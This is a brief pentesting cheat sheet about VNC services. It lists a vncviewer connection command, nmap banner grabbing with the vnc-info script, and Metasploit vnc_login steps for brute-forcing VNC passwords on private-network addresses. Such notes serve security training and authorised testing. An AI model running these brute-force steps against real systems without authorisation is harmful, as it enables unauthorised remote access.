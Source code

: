 **Connect**
-   `vncviewer 192.168.1.109`
    

  

**Enumeration**
-   VNC Banner Grabbing
	-   `nmap -p 5901 --script vnc-info 192.168.1.218`
    

  

**Bruteforce password**
-   `use auxiliary/scanner/vnc/vnc_login`    
-   `msf auxiliary(vnc_login) >set rhosts 192.168.1.218`    
-   `msf auxiliary(vnc_login) >set rport 5901`   
-   `msf auxiliary(vnc_login) >set pass_file /root/Desktop/pass.txt`    
-   `msf auxiliary(vnc_login) > run`

